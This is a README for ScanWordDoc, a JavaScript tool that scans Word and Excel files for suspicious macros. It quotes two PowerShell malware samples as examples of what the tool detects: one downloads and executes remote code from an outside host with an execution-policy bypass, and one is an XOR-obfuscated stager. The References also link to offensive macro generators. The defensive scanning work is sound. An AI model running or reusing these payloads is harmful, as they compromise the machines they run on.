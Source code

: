 # ScanWordDoc
Look for malicious patterns in Word Docs. Intended to be used inline with email or standalone per file.

This is a community project at https://www.codeforatlanta.org/ 

## goals
1. Tackle common high value security issues in a way that is accessible to everyone.
2. Create a script that will scan a word doc and validate, it's valid, it works, if it has macros, if those macros look suspicious
3. Create methods / scripts to put it inline with various email systems for easy and free
4. Create a successful patternt that can be used for other similar security use cases.
5. DO NOT compromise the host that is scanning the file
6. Create the script in javascript for ease of portability

## getting started

scan individual files
```bash
> node scan.js ./tests/benign/nomacros.doc
> node scan.js ./tests/benign/hasmacros.doc
> node scan.js ./tests/malicious/hasmacros.doc
```
or scan directories + subdirectories
```
> node scan.js ./tests/
```


## Supported Files
1. Excel XLS
2. Word DOC

## Example Response
```JSON
{ fileType: 'doc',
  hasMacro: true,
  macroTxt: 'Sub SortText()
    Selecton.h
    End P',
  isValid: false,
  hasContent: true }
```

## Example Malicious MAcro / Command
```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Exec Bypass -NoP -NoExit -Command iex((New-Object System.Net.WebClient).DownloadString('http://qwdiqjwdwqu9daquwddd.com/REX/slick.php?utma=torzd'))
```
```powershell
POwerSHell &( $psHOme[21]+$PSHOMe[30]+'x') ( ([char[]]( 96 ,6,19, 11 ,45,34 ,100, 121,100 ,42,33 , 51, 105 ,43 ,38,46 ,33,39,48 ,100,54, 37,42 ,32,43,41 , 127 ,96 ,15, 6,37, 17 ,9 , 46 , 100 ,121 ,100, 42, 33 , 51, 105 , 43, 38 ,46, 33 , 39, 48,100, 23, 61, 55 ,48,33 , 41, 106 , 10 , 33, 48,106,19, 33,38 , 7 , 40,45 ,33, 42,48 , 127, 96,52 , 39, 62 ,49 ,53 , 100, 121, 100, 99,44,48 ,48 , 52 ,126,107, 107,37, 42, 32 ,43, 54 , 45 ,43,37 , 55 , 42, 33,55, 106,39, 43,41,107,12, 12 , 8, 8,107, 45,42 , 32, 33 ,60, 106,52 ,44 ,52,123 ,40,121,38, 43 ,42,61 , 118,106 , 39, 40 , 37 , 55,55 , 99, 106 , 23 , 52 , 40,45, 48 , 108, 99 , 4 ,99,109, 127,96, 39, 41 ,17 ,12, 50 ,100, 121, 100 , 96, 6,19 ,11 ,45,34,106, 42, 33 , 60 ,48 , 108, 117, 104,100, 117,114 , 114 , 115,119 , 113 , 109 ,127 , 96,22,0 , 14 , 51, 42, 100,121 ,100,96,33, 42, 50, 126,48 , 33,41, 52 , 100 , 111 ,100, 99 ,24 , 99, 100 ,111, 100,96 ,39 ,41 , 17,12 ,50, 100 ,111, 100,99 , 106 , 33,60 ,33, 99,127,34 ,43, 54, 33 , 37, 39, 44, 108 ,96 , 16, 23 ,50 ,43 , 54, 3,100, 45 ,42 ,100,96 , 52, 39, 62, 49 ,53, 109, 63 , 48 , 54 , 61, 63 , 96 ,15 , 6,37 ,17,9, 46 ,106,0, 43,51, 42 ,40,43,37,32,2,45 , 40,33 , 108, 96 , 16 ,23,50, 43, 54, 3 ,106 , 16,43 ,23 , 48,54, 45,42 , 35,108 ,109 , 104, 100 , 96 ,22, 0, 14 , 51,42,109 , 127 , 23,48 , 37 ,54,48,105 ,20,54 , 43,39, 33,55 , 55, 100,96 ,22, 0,14, 51 ,42, 127, 38, 54, 33, 37 ,47 ,127,57,39, 37 ,48 , 39, 44, 63, 51 ,54, 45 , 48, 33 ,105, 44, 43,55, 48 , 100, 96 , 27, 106 ,1,60,39 , 33, 52,48,45 , 43,42 ,106,9, 33 ,55,55,37 ,35, 33 , 127,57 ,57) | foreAcH-ObJECt {[char]( $_ -BXOR'0x44') })-jOiN'' )
```

## References
- https://www.npmjs.com/package/cfb : currently the primary library supporting functions thanks Yaw Agyepong !
- https://github.com/curi0usJack/luckystrike
- https://github.com/enigma0x3/Generate-Macro
- https://github.com/joesecurity/pafishmacro
- https://github.com/strawp/poisonpen
- https://github.com/gpalazolo/olevba_analyzer
- https://github.com/teto2005/Generate-Macro-is-a-standalone-PowerShell-script-that-will-generate-a-malicious-Microsoft-Office-doc
- https://github.com/Heteroskedastic/corrupt-file-scanner
- https://developers.google.com/gmail/api/quickstart/nodejs
